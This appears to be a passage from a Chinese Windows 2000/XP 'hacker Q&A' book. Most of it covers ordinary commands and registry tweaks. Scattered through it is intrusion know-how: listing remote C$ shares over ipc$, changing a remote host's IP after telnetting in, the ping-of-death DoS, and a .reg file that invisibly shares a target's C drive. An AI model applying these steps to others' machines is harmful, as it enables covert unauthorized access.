答：`nslookup` 是用来验证 DNS 服务响应的工具，也可以用来获得域中的主机 IP 列表（图15）。  
使用命令 `nslookup www.sohu.com`，可获得 `sohu.com` 域中的主机 IP 列表，同时还会获得本机所使用 DNS 服务器的地址。图中的 `server` 和 `address` 分别是 DNS 的地址和 IP 地址。

问：在命令行下，如何中断会话？

答：继续上面的例子，用 `net session` 可以看到 `\\python` 在与本机通信。这时使用命令 `net session \\python /delete`，然后再用 `net session` 会发现已断开。  
我们可以用 `ipconfig /all` 命令验证一下（图16），从结果可看到 DNS 服务器地址和用 nslookup 查到的地址一样，可见没有错误。

问：我知道了对方主机名，怎么获得他的 IP 地址？

答：直接使用 ping 命令即可，格式为：`ping machine_name`（图17，ping 一台名为 major 的主机）。

问：我得到了对方的 IP 地址，在同一个局域网内，我可以获得他的主机名吗？

答：可以，但该方法只能在局域网同一网段内使用。命令格式为：`ping -a ip_address`（图18）。

## ping 命令的一些高级用法

- **1. `-n` 参数**：默认情况下 ping 某个主机会发送 4 个数据包（图19）。  
  为了更快速确定对方是否在线，或确定中间路由情况，我们可能不必发送那么多包。这时可使用：  
  `ping ip_address(or machine_name) -n x`  
  其中 x 是发送数据包个数。例如 `-n 1` 表示只发送一个数据包（图20）。

- **2. `-l` 参数**：  
  有人听说过“死亡之 ping”，这是一种最简单的 DoS 攻击，本质是利用 ping 不停发送大量数据包。这里使用的就是 `-l` 参数。  
  用法：`ping ip_address(or machine_name) -l len`  
  其中 len 是发送数据包长度。例如使用 65500 bytes 的数据包 ping 一台主机（图21）。

- **3. `-w` 参数**：  
  用于设置延时。如果线路不好，经常会 ping 超时，但实际上并非不通。此时可用 `-w`。例如设置延时为 3 秒：  
  `ping ip_address -w 3`（图22）。

- **4. `-t` 参数**：  
  `-t` 表示持续 ping。加上该参数后，直到按 `Ctrl+C` 前，ping 会不断发送数据包来检测线路连通状况（图23）。

- **5. `-f` 参数**：  
  数据在网络传输时，可能会因为长度过长而要求分段。若使用 `-f` 参数，会在发送数据时标记“禁止分段”位。若网络对分段检查严格，会出现：  
  `Packet needs to be fragmented but DF set.`  
  （意为：数据包发送过程中要求分段，但 DF 禁止分段位已被设置）（图24）。

以上是几个最常用参数，其他更高级参数不再展开。

问：我能远程列出主机某个盘下的所有资源吗？

答：可以，用 `dir` 命令即可。但需要远程主机开启磁盘共享，且此前要建立 ipc$ 连接；同时要保证建立 ipc$ 连接时使用的用户对该共享磁盘有查看权限。  
命令：`dir \\ip\c$`，可查看远程主机默认共享 C 盘资源（图26）。

问：如何使用命令查看本机 IP 地址、DNS 服务器？

答：`ipconfig` 命令即可（Win98/ME 也可用）。但在 Win2k 下，还有一个更具 Win2k 特色的命令：`netsh`，它有很多子命令。  
在 cmd 下输入 `netsh`，进入 `netsh>`；再输入 `int ip` 进入 `interface ip>`；然后输入 `dump`，这时屏幕会打印出当前连接配置情况（图25）。

问：我 telnet 到远程主机后，想改变他的 IP，命令行下怎么做？

这里有一个命令可以使用，不过要注意，这个命令只能在 Win2k 或 Win2k 以上版本的机器上使用。命令为：`netsh -c interface dump`，它的作用就是将主机的网络配置 dump 下来，并打印在屏幕上（图27）。

不过这个命令只是显示配置而已，并不能更改。所以，我们还要做一些手脚，把命令改为：`netsh -c interface dump > c:\ip.txt`，也就是将 dump 下来的配置状况保存到 C 盘根目录下的 ip.txt 文件中（图28）。这样，我们就可以到 C 盘下使用 edit 命令来编辑 ip.txt 这个文本（注意，千万不要修改其格式，要在保持其格式不变的情况下做修改），编辑完成后就保存退出。

这时候，我们再使用一个命令将其导入就可以了，导入命令为：`netsh -f c:\ip.txt`。导入完成后没有提示，所以我们可以用 `ipconfig` 或 `ipconfig /all` 来查看现在的配置，以确定是否改变；如果不成功的话，再做一次。

- 用什么命令才可以限制用户的登录时间范围呢？
- `net` 命令中就有这样的功能。

```bash
net user aaa /times:sunday-monday,08:00-16:00
```

好，命令成功了。那么我现在来用 `net user aaa` 命令查一下 aaa 的登录时间限制。从图中可以看到：星期日 上午 08:00－下午 04:00；星期一 上午 08:00－下午 04:00（图4-30）。

其中使用的是 Sunday-Monday，所以要注意，星期日才是一周的开始，在这个命令中也是；我们都习惯了把星期日作为一周的结束，这样很容易在使用这个命令的时候出错，所以要小心。

P.S. 学好英文哦，如果连周一到周日的英文都不会的话，可连这个命令都用不了。

还有，忘了说了，如果想要恢复到原样，也就是不限时登录，那么只要使用命令：

```bash
net user aaa /time:all
```

就可以了（这个命令可以举一反三的哦）。

---

问：该如何在系统里卸载 IE，默认找不到卸载项的？

答：可以先打开“我的电脑”，选择“工具”->“文件夹选项”->“查看”，勾选“显示所有文件和文件夹”，点击“应用”。然后用写字板打开 Windows/inf（这是隐藏文件夹）/sysoc.inf，删除文件中的所有 `HIDE`（不要删除任何逗号），保存文件。最后进入添加删除程序，点击“添加/删除 Windows 组件”，就可看到 Windows 组件中多了浏览器卸载项。

问：我新安装了天网防火墙，可是一启动天网，它就在系统托盘里闪一下就没了，而且进程中也没有，这是怎么一回事呀？

答：这种情况极有可能是你在安装天网防火墙前系统已经感染了病毒或木马程序，病毒或木马程序为了保护自己而杀掉了天网防火墙的进程。有时安装杀毒软件也会这样，基本上也是这个原因。另外还有一种情况，就是你的系统中已经安装了别的防火墙，这种情况也可能会因为冲突而导致天网无法运行。

问：我的系统是 XP，由于某些原因，我经常是直接关掉计算机或者重启，所以下次启动系统的时候总是要等待很长时间，有没有什么方法可以让自动检测快一些呢？

答：Windows 2000/XP 不正常关机，下次启动的时候系统就会进行磁盘扫描，要等待 10 秒左右。首先运行 cmd 进入 DOS 窗口，然后输入 `chkntfs /t:0` 回车就可以了，作用是将时间缩短到 0 秒。

```bash
chkntfs /t:0
```

问：我有一些视频媒体文件，因为不想让别人看见，就将其扩展名改了，现在后缀我忘记了，有没有办法找回来呢？

答：这个问题很好解决。现在市面上也无非就是 Windows Media Player、Real Player、QuickTime 等几种常见的媒体播放软件，你用这三个软件一一试着去强制打开这些文件；如果使用 Windows Media Player 可以正常打开，就把它的扩展名改成 `.mpg` 或 `.asf`；如果使用 Real Player 可以正常打开，就把扩展名改成 `.rm` 或 `.rmvb`；如果使用 QuickTime 可以正常打开，就把扩展名改为 `.avi` 或 `.mov`。

问：为什么我的浏览器突然不显示 FLASH 了，现在连音乐都不能播放了，怎样才能把浏览器修改回来呢？

答：依次点击 IE 浏览器上方的“工具”->“Internet 选项”，在出现的“Internet 选项”菜单中选择“高级”，点击“恢复默认设置”按钮就可以了（图31）。

图31

问：我使用的是 Windows 2000 系统，我想把一个 F 盘分成两个盘该怎么办呀？

答：先把 F 盘上的所有文件转移到其他盘中，再进入“控制面板”的“管理工具”->“计算机管理”->“磁盘管理”，然后在里面右击 F 盘，选择删除逻辑驱动器。删除完以后再创建一个新的逻辑驱动器，空间大小可以根据自己的需要来选择。创建完成以后，再把剩余的空间创建一个驱动器，这样原来的 F 盘现在就变成了 F 和 G 了。

问：“文件关联”和“文件捆绑”是什么？应该怎样把木马捆绑到软件中去？

答：比如你有一个 doc 文件，如果双击该文件是用 Word 打开的，那么表示该文件是和 Word 关联的。文件捆绑是将两个不同程序结合成一个文件，运行该文件时按先后顺序运行这两个不同的程序。目前的文件关联木马和文件捆绑木马其实都是把自己伪装成一个正常的程序或文件，让你在不知不觉间放松警惕并运行。

问：在我用 C 语言编译程序时，产生了一个错误文件，在删除它时，Windows 提示该文件的删除路径不对，无法删除。然后从那以后，我只要做“清空回收站”的操作，它都会蹦出个错误信息提示：“*** 文件路径不对，无法删除”。但是回收站的文件已经被清空了，每次清空时虽然不影响我的操作，但是总蹦出个错误提示，让人觉得很烦，怎么才能清除它呢？

答：你可以开机引导到 MS-DOS 模式，先清除“回收站”的系统、隐藏属性（使用 `attrib -r -s -h` 命令），然后用 `deltree` 命令删除回收站文件夹（recycle bin），然后重新启动系统，Windows 会自动重新建立回收站，这样就会解决这个问题了。

问：如何使用汉字来做密码啊？

答：可以先把汉字打出来然后再用 `Ctrl+C` 复制，然后按 `Ctrl+V` 把密码复制到密码输入栏中，一般都会成功，但有些特殊的情况好像不可以。

问：我有一台电脑安装的是 Windows 2000 专业版，因为很长时间没有使用，把 administrator 用户的密码给忘记了，只知道一个本地的 kk 账号和密码，我如何才能把 administrator 的密码找出来呀？

- 如果你以前做过 Windows 2000 的恢复软盘的话，你可以使用这些系统恢复盘来恢复 administrator 的密码。
- 你可以使用一些远程溢出程序（也包括一些本地溢出程序）攻击自己的电脑，通常本地的 IP 地址为 `127.0.0.1`，这样溢出成功后，你也就得到了系统权限，可以重新更改 administrator 的密码。
- 如果上边的两个方法都不能成功，那只有重新安装系统了。

问：如何让一台电脑上的 C 盘共享而又不出现共享标志（就是那个手）？

答：建立 sharec.reg 文件以导入到对方的注册表中，sharec.reg 文件内容如下：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\NetWork\LanMan\SHAREC$]
"Flags"=dword:00000302
"Type"=dword:00000000
"Path"="c:\\"
"Parm2enc"=hex:
"Parm1enc"=hex:
"Remark"=""
```

则对方的 C 盘就被共享为 SHAREC$，但对方却看不出来被共享了。上面的方法通过手工也可操作，但需要注意 Flags 处的值 302 为十六进制。

## 第五章 Windows 2000/XP/2003 的服务及注册表常见问题

### 如何利用注册表修改 TTL 值？

到这个位置：

`HKLM\System\CurrentControlSet\Services\Tcpip\Parameters`

在右边找到键 `DefaultTTL`（如果没有的话则需要自己建立，该键的类型为“双字节值”），设置这个键的值为你想要的 TTL 值。例如：修改为 255，伪装成为一台 UNIX（UNIX 的默认 TTL=255）。但是要注意，修改值的时候记得选择十进制；如果是十六进制的话，就不是 255，而是要写 `ff`（图1）。

### Win2k 的“文件夹选项”->“查看”里没有“显示所有文件和文件夹”了，怎么搞的？

这是修改注册表实现的。修改位置如下：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden`

在 Hidden 下，删除 `SHOWALL` 键值即可。

这时候再来到“文件夹选项”的“查看”选项卡中，会发现“显示所有隐藏文件”这一项已经不见了（图2）。

还是注册表中下面的位置：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden`

在这下面，大家可以看到除了有 `SHOWALL` 以外还有一个键值为 `NOHIDDEN`，这一项实际上是对应的“不显示所有隐藏文件和文件夹”项（图3）。

我为什么要这样说呢？细心的朋友应该可以发现，在注册表中，这个结构和“文件夹选项”中的“查看”卡中项是对应的。所以说，在注册表中很多类似的键值都是和系统中一些特殊选项有对应关系的。

我说这些只是为了给大家提供一点学习注册表的相关信息。如果大家以后再修改注册表的时候，能注意到这些的话，对于一些特殊键值的修改很快就可以掌握，甚至可以非常容易地举一反三。

### 救我，我的 IE 被修改了，IE 标题栏中被写上了网站的地址，怎么办？

很多网站很讨厌，会修改注册表导致 IE 变样。在这里写出几个常见情况及其修改办法：

### 修改 IE 的标题栏

即在 IE 浏览器最上方的蓝色横条里做广告（默认的为 Microsoft Internet Explorer）。这个比较常见，到这里改：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main`  
`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`

在注册表中找到以上两处主键，将其下的 `Window Title` 修改为 `Microsoft Internet Explorer`，或者自己想要的字样，并关闭所有打开的 IE 浏览器窗口再重新打开就能看到效果。

### 修改 IE 的首页

这个很简单，只要在 IE 的 Internet 选项里进行修改就可以了。当然，也可以到注册表中修改，位置为：

`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`

在右边找到 `Start Page` 这个值，修改为你想要的主页地址就可以了。

### Windows 启动时显示一个窗口，点确定才能进去

这个设置其实与 IE 无关，而是 Windows 的登录提示窗口；不过最近还有些网页对它动上了脑筋，在这个窗口里做广告。

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon`

在注册表中找到此主键，将其下的 `LegalNoticeCaption` 和 `LegalNoticeText` 主键删除即可。

### 在 IE 里点击鼠标右键，在弹出的菜单里显示网页广告

`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`

在 IE 中显示的附加右键菜单都在这里设置，常见的网络蚂蚁和网际快车点击右键下载的信息也存放在这里，只需找到显示广告的主键条目删除即可。

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

将以上代码复制到记事本中，然后将这个文件名改为 `*.reg`，双击运行可以解除你的锁定状态。

### 禁止或允许用户修改 IE 首页

这个位置：

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel`

其实一般此键是不存在的，所以后面一截要自己建立。主键建立完后，在 `Control Panel` 键下新建一个 DWORD 值，键名为 `HOMEPAGE`（不分大小写），键值为 `1`。此时你打开 IE 属性时可以发现改首页设置的部分已经不可用。  
当然如果你想先指定主页的话，可以把 `HOMEPAGE` 的值改为 `0` 或删除它，然后修改主页设置，再把 `HOMEPAGE` 改回来即可。

> 在以上的 `Windows Registry Editor Version 5.00` 和 `REGEDIT4` 下一定要空一行。另外，在脚本结束的时候，要键入至少一个回车才可以。

### 去掉注册表编辑器被锁定问题

### Win2000 系统

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

### Win98/ME 系统

```reg
[REGEDIT4 脚本内容（图中下半部分未完整显示）]
```

- Win2k 中如何从开始菜单中去掉“文档”菜单？  
  注册表编辑器中，来到以下位置：  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
  再选择“编辑”菜单下的“添加数值”命令，添加数值名称 `NoRecentDocsMenu`，数据类型选择 `REG_DWORD`，将键值设为 `1`，确定后重启系统即可。

- Win2k 中如何从开始菜单中去掉“查找”菜单？  
  在以下位置新建一个 DWORD 值，名为 `NoFind`，修改其数据为 `1`，完成后重新启动计算机：  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

- Win2k 中如何从开始菜单中去掉“注销”菜单？  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
  新建一个 DWORD 值，名为 `NoLogOff`，数据为 `1`，完成后重新启动计算机。

- 如何从开始菜单中去掉“关闭系统”菜单？  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
  新建一个 DWORD 值名为 `NoClose`，数据为 `1`，完成后重新启动计算机。

- 如何从开始菜单中去掉“设置”菜单？  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
  新建 DWORD 值，名为 `NoSetFolders`（原文末尾被截断）。

- 如何自动清除“文档”菜单内容？  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
  新建一个 DWORD 值 `ClearRecentDocsOnExit`，其数据为 `1`，完成后重新启动计算机。

- 如何删除桌面上的系统图标？  
  当你想删除桌面上的“回收站”“Internet Explorer”等系统设定的图标时，会发现它们不能用一般方法删除。这时你就要到注册表如下位置：  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Desktop\NameSpace`  
  该分支下面有多个子键，这些子键对应桌面上的“系统”图标（如“Internet Explorer”等）。删除不需要的图标，只须删除对应键值，再重新启动系统即可。

- 如何去掉“网上邻居”图标？  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
  新建一个 DWORD 值 `NoNetHood`，其数据为 `1`，完成后重新启动计算机。

③ 如何能禁止使用 Win2k 的任务管理器？

⑤ 打开注册表，找到如下位置：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

如果 `System` 这一项不存在，就需要手动建立一个。右边窗口中新建一个字符串值，名为 `DisableTaskMgr`，设其值为 `1`。这时候，在任务栏上的右键菜单中，任务管理器将呈灰色（图4）。



⑥ 有没有办法给回收站增加一个重命名的功能？

⑤ 注册表的如下位置：

```
HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}
```

在这个键的下面打开 `ShellFolder` 子键，再到右边窗口中，找到 `Attributes`，将原来的值 `40 01 00 20` 改为 `50 01 00 20`。这时候，回到桌面上，右键“回收站”，会发现里面已经有了重命名功能（图5）。



⑥ 有没有办法在右键菜单中增加“清空回收站”的选项？



⑤ 可以的，修改注册表就可以做到，位置如下：

```
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers
```

在下面新建一个主键 `{645FF040-5081-101B-9F08-00AA002F954E}`，确定后退出注册表编辑器。然后来到桌面上，随便找到一个文件，右键该文件，在右键菜单里可以看到“清空回收站”这一项（图6）。

我的 WinRAR 已经删掉了，但是右键菜单中还是有 WinRAR 的选项，怎么删除啊？

修改你的注册表，位置如下：

```
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers
```

下，查找右键中残留的项，删除即可（图7）。



图7

另外，如果这些右键菜单中的选项对文件夹也有效的话，还要到这里：

```
HKEY_CLASSES_ROOT\Directory\shell
HKEY_CLASSES_ROOT\Directory\shellex\ContextMenuHandlers
HKEY_CLASSES_ROOT\Folder\shellex\ContextMenuHandlers
```

下也会出现，如果有的话，删掉。

在开始按钮上点右键出现的那个菜单，可以禁止掉么？

可以的，来到注册表如下位置：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
```

在这下面，新建二进制值 `NoTrayContextMenu` 并改其数据为 `1` 即可。再到开始按钮上点右键试试，不能用了吧！

我能不能禁止在桌面上点鼠标右键？

可以可以，只要有注册表，我们还有什么不可以的呢。这个位置：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
```

这下面新建一个二进制值，名为 `NoViewContextMenu`，数据为 `1`。

我能不能像在开始运行中输入 `cmd` 那样来调用其他的程序呢？

一般情况下不是所有程序都可以的，但是，如果修改了注册表，就可以了。首先，我把 `cmd.exe` 从 `C:\WINNT\system32` 目录下 copy 到 F 盘并重命名为 `dos.exe`，这时候，在运行中输入 `dos.exe` 将得到错误提示（图8）。


图8

# 黑客问答一点通

然后，修改注册表，位置如下：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\AppPaths`

下面建立一个 `dos` 主键，然后修改右边窗口的默认值为 `F:\dos.exe`，再在这里建立一个 `Path` 字符串，取值为 `F:\`（图9）。（注意路径的盘符要大写）



图10

